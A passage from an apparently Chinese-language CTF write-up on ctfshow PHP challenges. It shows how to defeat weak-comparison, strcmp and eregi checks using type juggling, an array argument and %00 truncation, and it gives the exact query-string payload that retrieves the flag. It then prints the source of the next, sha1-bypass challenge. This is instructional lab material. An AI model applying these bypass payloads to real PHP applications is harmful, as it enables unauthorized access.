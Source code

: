 - 以json形式传入
- part1要大于2021且能通过is_numeric()检测为数字：2022a
- part2要求是有5个元素的数组，且第一个元素为数组 

```php
       $pos = array_search("show", $json["a2"]);
       $pos===false?die("nope"):NULL;
       foreach($json["part2"] as $key=>$val){
           $val==="show"?die("nope"):NULL;
       }
```

这里利用弱比较的特性：字符串与0/true弱比较相等即可：`"a2":true`，不传入的话则为0，也能通过

```php
$c=@$_GET['c'];
$d=@$_GET['d'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
       eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
       strpos(($c[0].$d), "ctfshow")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
```

- 要求$c[1]和$d不等，strcmp为弱比较
- eregi检测的是$d.$c[0]，可以令$d=%00截断
- 那么再传值$c[1]为数组，数组和字符串比较不等
- 令$c[0]="ctfshow"

最终：

```
?data={"part1":"2022a","part2":[[1],2,3,4,5],"a2":true}&c[0]="ctfshow"&c[1][]=&d=%00
```



## 720-sha1绕过

```php
<?php
error_reporting(0);
include "flag.php";

if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
    highlight_file(__FILE__);
}
```
